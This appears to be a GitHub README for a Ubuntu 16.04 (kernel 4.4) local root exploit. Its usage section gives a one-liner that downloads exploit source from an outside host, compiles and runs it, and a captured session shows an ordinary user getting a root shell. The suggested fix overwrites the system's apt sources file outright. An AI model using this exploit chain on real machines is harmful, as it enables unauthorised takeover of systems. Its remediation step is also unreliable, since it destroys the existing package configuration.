


# Ubuntu16.04-0day

### 漏洞范围： all 4.4 ubuntu aws instances are vulnerable

### 漏洞测试环境
```
➜  ~ id

uid=1002(test) gid=1002(test) groups=1002(test)

➜  ~ lsb_release -a                  

Distributor ID:	Ubuntu
Description:	Ubuntu 16.04.3 LTS
Release:	16.04
Codename:	xenial

➜  ~ uname -a

Linux ubuntu 4.4.0-87-generic #110-Ubuntu SMP Tue Jul 18 12:55:35 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux

➜  ~ 

```
### 参考解决方案
```

echo "deb http://archive.ubuntu.com/ubuntu/  xenial-proposed restricted main multiverse universe" > /etc/apt/sources.list

apt update 

apt install linux-image-4.4.0-117-generic

reboot

```

[](https://asciinema.org/a/7OBFovzR6b5g5FQsS3bUVe0aW)


## Use-Age:

```

wget -P /tmp http://cyseclabs.com/exploits/upstream44.c &&cd /tmp && gcc -o pwned  upstream44.c && chmod 777 pwned && ./pwned 


```



```
$ id
uid=1002(test) gid=1002(test) groups=1002(test)

$ wget -P /tmp http://cyseclabs.com/exploits/upstream44.c &&cd /tmp && gcc -o pwned  upstream44.c && chmod 777 pwned && ./pwned
--2018-03-16 17:08:09--  http://cyseclabs.com/exploits/upstream44.c
Resolving cyseclabs.com (cyseclabs.com)... 58.96.20.9
Connecting to cyseclabs.com (cyseclabs.com)|58.96.20.9|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5776 (5.6K) [application/octet-stream]
Saving to: ‘/tmp/upstream44.c.1’

upstream44.c.1                                       100%[==========================================================================>]   5.64k  --.-KB/s    in 0s
2018-03-16 17:08:10 (186 MB/s) - ‘/tmp/upstream44.c.1’ saved [5776/5776]

task_struct = ffff880065821980
uidptr = ffff880034edbe04
spawning root shell

root@ubuntu:/tmp# id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:kernel_t:s0

```
#### 注意 如果不同的内核调整CRED偏移量+检查内核堆栈大小


### 参考链接

https://twitter.com/vnik5287/status/974439706896187392

http://cyseclabs.com/exploits/upstream44.c


